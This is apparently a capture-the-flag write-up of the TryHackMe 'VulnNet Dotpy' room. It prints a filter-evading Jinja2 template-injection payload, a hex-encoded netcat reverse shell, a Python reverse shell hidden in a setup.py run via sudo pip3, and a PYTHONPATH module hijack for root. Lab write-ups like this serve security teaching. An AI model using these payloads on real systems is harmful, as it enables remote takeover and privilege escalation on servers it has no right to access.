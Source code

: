 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...


![](/images/D4rkDemian/dotpy1.png)


We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.


On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..


![](/images/D4rkDemian/dotpy3.png)


So we guessed it would be template injection and confirmed it by entering {{7*7}}.


So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..


```py

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

This worked and we got our output.


![](/images/D4rkDemian/dotpy6.png)


Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```py
/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen'
('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc
\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D

```

We replaced the percent sign with \x and . with \x2E as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing sudo -l we found that user web had the permission to run /usr/bin/pip3 as system-adm user .


So we created a setup.py file and placed the python reverse shell in it 


```py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py
```


Now listen on your local machine and run the following command in the shell 

```shell
sudo -u system-adm /usr/bin/pip3 install /tmp/shell
```

And now we are system-adm 

Now after getting the user flag we do sudo -l to get this:

![](/images/Dr.DONN4/dotpy1.png)

Now after a bit of google search I get this root priviledge escalation technique named SETENV in this blog https://book.hacktricks.xyz/linux-unix/privilege-escalation

I tried as was done in the blog that is ran 
``` sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py 
```
But it didn't worked.

![](/images/Dr.DONN4/dotpy2.png)

Hence, I read the backup.py code and found mistakes in the program but we didn't had permission to change it.But we have a zipfile module we can make use of this module by 
creating one in the /tmp/ directory.

![](/images/Dr.DONN4/dotpy3.png)

So, I created one zipfile with 

```
echo "import pty;pty.spawn('/bin/sh')" > /tmp/zipfile.py
```

And ran the command again :

![](/images/Dr.DONN4/dotpy4.png)

and we have the root flag
